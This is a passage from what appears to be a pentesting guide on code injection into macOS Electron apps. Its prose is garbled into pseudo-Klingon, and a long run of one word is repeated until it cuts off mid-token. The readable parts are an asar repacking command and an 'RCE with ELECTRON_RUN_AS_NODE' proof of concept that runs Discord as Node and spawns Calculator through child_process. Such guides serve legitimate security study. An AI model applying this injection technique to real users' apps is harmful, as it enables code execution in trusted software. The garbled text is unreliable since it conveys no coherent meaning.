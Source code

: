 vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhut
```bash
npx asar pack app-decomp app-new.asar
```
## RCE with `ELECTRON_RUN_AS_NODE` <a href="#electron_run_as_node" id="electron_run_as_node"></a>

[**the docs**](https://www.electronjs.org/docs/latest/api/environment-variables#electron\_run\_as\_node) jup, 'ejyo' vItlhutlh, 'ej 'oH 'ej 'oH Node.js process normal start variable env 'ej.
```bash
# Run this
ELECTRON_RUN_AS_NODE=1 /Applications/Discord.app/Contents/MacOS/Discord
# Then from the nodeJS console execute:
require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator')
```
{% endcode %}

{% hint style="danger" %}
QaStaHvIS **`RunAsNode`** fuse qar'a'chaj vaj **`ELECTRON_RUN_AS_NODE`** env var vItlhutlh, 'ej vaj 'oH.
{% endhint %}

### Injection from the App Plist

